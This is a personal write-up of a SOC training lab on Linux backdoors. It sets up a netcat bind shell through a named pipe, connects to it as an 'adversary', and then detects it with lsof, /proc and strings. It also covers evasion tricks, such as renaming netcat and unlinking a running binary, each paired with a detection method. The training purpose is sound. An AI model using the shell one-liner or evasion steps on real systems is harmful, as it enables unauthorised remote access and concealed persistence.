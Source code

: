 ```yaml
---
{"dg-publish":true,"permalink":"/webinars-and-training/black-hills-soc-core/labs/bhis-socc-lab-linux-cli/"}
---
```


The Lab - [IntroClass/LinuxCLI](https://github.com/strandjs/IntroLabs/blob/master/IntroClassFiles/Tools/IntroClass/LinuxCLI/LinuxCLI.md)
Section Notes - [[Webinars and Training/BlackHills SOC Core/Topics/SOCC02 - Linux\|SOCC02 - Linux]]
## Linux Lab
In this lab, we're investigating [[Definitions and Topics/backdoor\|backdoors]] on a [[Tool Deep-Dives/Linux/Linux\|Linux]] system. In this write-up, I'm going to separate the commands into three different shell sessions; *Server*, *Adversary*, and *Analyst*, 
1. Configure the "server" to listen for commands from the "client" machine
	1. *Server* terminal^[In the real world, these commands would likely be executed in a malware's payload]
		2. Open a Ubuntu shell and log in as Super User
			1. `sudo su -`
		3. Create a FIFO (first in, first out) [[Tool Deep-Dives/Linux/Named Pipe\|backpipe]]
			1. `mknod backpipe p`
				1. [mknod](https://man7.org/linux/man-pages/man2/mknod.2.html) Creates a named pipe called `backpipe`
		4. Start the backpipe
			1. `/bin/bash 0<backpipe | nc -l 2222 1>backpipe`
				1. Basically creates a netcat listener that forwards all input through a backpipe and then into a bash session, and then passes the output back to the listener ([MITM](https://ccnadefinitions.com/ccna/20-definitions/mitm-on-path/))?
					1. `0` - standard input
					2. `1` - standard output
					3. `2` - error
				2. `nc` = netcat
					1. `-l 2222` = listen on port *2222*
				3. For the backpipe, don't forget that *0* **<** *backpipe*, and *1* **>** *backpipe*
					1. Where a *pipe* is monodirectional, a [[Tool Deep-Dives/Linux/Named Pipe\|Named Pipe]] can move data in any direction want
						1. netcat to backpipe, backpipe to bash, bash to netcat, etc...
						2. infinite loop
		5. At this point, the shell is chilling; the command, running. We need to send it some commands.
	2. *Adversary* terminal
		1. Get your IP address and establish a connection to the *Server*
			1. `ip a`
			2. `nc <your IP address> 2222`
		2. If you connect correctly, it's going to look like it's chilling too; but let's type some commands
			1. `ls`
			2. `whoami`
			3. ![BHIS-SOCC-lab-LinuxCLI.png](/img/user/Attachments/BHIS-SOCC-lab-LinuxCLI.png)
				1. **NOTE**: In this go-through, I changed the backpipe name to `5FTP` to see how it looked, and I hate it.
		3. At this point, we have demonstrated that we have established [[Definitions and Topics/Remote Shell\|Remote Shell]], and are ready to start looking for clues
2. Investigate from the *Analyst* terminal
	1. In the [lab](https://github.com/strandjs/IntroLabs/blob/master/IntroClassFiles/Tools/IntroClass/LinuxCLI/LinuxCLI.md), they suggest logging in as Root; this is generally a bad idea in the real world (like logging in as domain admin), and we should be able to accomplish most commands just running them with `sudo`.
	2. Look for network connection processes
		1. [[Tool Deep-Dives/Linux/lsof\|lsof]] 
		2. `sudo lsof -i -P`
			1. `-i` is internet connections
			2. `-P` port number only (don't guess the service)
			3. ![BHIS-SOCC-lab-LinuxCLI-1.png](/img/user/Attachments/BHIS-SOCC-lab-LinuxCLI-1.png)
		3. This shows us the services that look strange; we can dig into a specific process with lowercase `-p`
			1. `lsof -p [process ID]`
				1. In my case, `sudo lsof -p 372`
			2. Shows everything associated with that particular PID
			3. ![BHIS-SOCC-lab-LinuxCLI-2.png](/img/user/Attachments/BHIS-SOCC-lab-LinuxCLI-2.png)
	4. Investigate the process files
		2. `cd /proc/[pid]`
		3. `ls`
			1. Everything associated with the memory of the executable *as it resides in memory*
		5. `strings ./exe | less`
			1. Prints out everything that's actively running *in memory*, and we can find netcat below
				1. ![BHIS-SOCC-lab-LinuxCLI-5.png](/img/user/Attachments/BHIS-SOCC-lab-LinuxCLI-5.png)
			2. If there's a program with a manual page, you can scroll through and find it with strings/less

 This is where the lab ends in the GitHub repo, but Mr. Strand had a few more tricks to share.
 
### Other ways to avoid detection
1. Rename netcat to anything else
	1. Note, here we used the [[Tool Deep-Dives/Linux/which\|which]] command to quickly locate the [[Tool Deep-Dives/Netcat\|Netcat]] application file.
	2. ![BHIS-SOCC-lab-LinuxCLI-8.png](/img/user/Attachments/BHIS-SOCC-lab-LinuxCLI-8.png)
		1. I also took the opportunity to create a new backpipe name, `logfile`, which is still suspicious but not the same as `backpipe`, and renamed [[Tool Deep-Dives/Netcat\|Netcat]] to `netlog`
	3. And now look! A happy little `netlog` has an open connection to the internet, and it's just writing to a `logfile`!
		1. ![BHIS-SOCC-lab-LinuxCLI-9.png](/img/user/Attachments/BHIS-SOCC-lab-LinuxCLI-9.png)
		2. ![BHIS-SOCC-lab-LinuxCLI-10.png](/img/user/Attachments/BHIS-SOCC-lab-LinuxCLI-10.png)
		3. However, if we run `strings ./exe | less` on it, we still find netcat
			1. ![BHIS-SOCC-lab-LinuxCLI-11.png](/img/user/Attachments/BHIS-SOCC-lab-LinuxCLI-11.png)
2. Hiding the file on the system
	1. You could use a . to hide it (`.notevil`), but it's crazier to unlink it (i.e. program running in memory disconnected from program in storage)
		1. e.g., the program in storage was deleted
		2. If you delete the file (`rm notevil`) *while it's running*, it will continue to run *in memory*
	4. How to detect?
		1. `lsof +L1`
			1. Shows all system files running without any links^[It also still shows up in regular `lsof -i -P`, but this just highlights anything that is trying to hide and wouldn't be found in traditional file scans.]
			2. ![BHIS-SOCC-lab-LinuxCLI-12.png](/img/user/Attachments/BHIS-SOCC-lab-LinuxCLI-12.png)
		2. Once detected, you can `kill` or `pkill` to end the unlinked process, and kill its access

